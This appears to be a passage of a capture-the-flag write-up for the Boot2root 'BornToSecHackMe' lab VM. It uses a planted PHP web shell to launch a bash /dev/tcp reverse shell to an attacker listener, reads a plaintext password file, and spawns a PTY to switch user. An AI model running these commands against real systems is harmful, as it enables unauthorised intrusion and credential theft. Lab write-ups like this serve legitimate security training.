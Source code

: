 # reverse shell

Because we have written php code in the file `/var/www/forum/templates_c/cmd.php` to execute any strings in the `cmd` parameter.  
We can obtain shell without using ssh method.  

## How to create a reverse shell ?

We must use our `attacker machine` to listen on one `port`.

```bash
nc -lvp PORT
```

Then the reverse shell command must be sent. In this example we have used `curl`: 

```bash
curl --insecure --get https://Boot2rootIP/forum/templates_c/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/AttackerIP/Port 0>&1'"
```

We have our reverse shell and we can explore the machine.

```bash
$nc -lvp 4444
listening on [any] 4444 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.113] from (UNKNOWN) [192.168.56.101] 59423
bash: no job control in this shell
www-data@BornToSecHackMe:/var/www/forum/templates_c$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@BornToSecHackMe:/home$ cat /home/LOOKATME/password
cat /home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

Now we have a shell access we can try to login with `lmezard`. We have a problem and to solve it we must to execute a shell using `TTY` mode (to create an `interactive shell`):
```bash
www-data@BornToSecHackMe:/var/www/forum/templates_c$ su lmezard
su lmezard
su: must be run from a terminal
www-data@BornToSecHackMe:/var/www/forum/templates_c$ python -c 'import pty; pty.spawn("/bin/bash")'
<ar/www/forum/templates_c$ python -c 'import pty; pty.spawn("/bin/bash")'    
www-data@BornToSecHackMe:/var/www/forum/templates_c$ su lmezard
su lmezard
Password: G!@M6f4Eatau{sF"
```
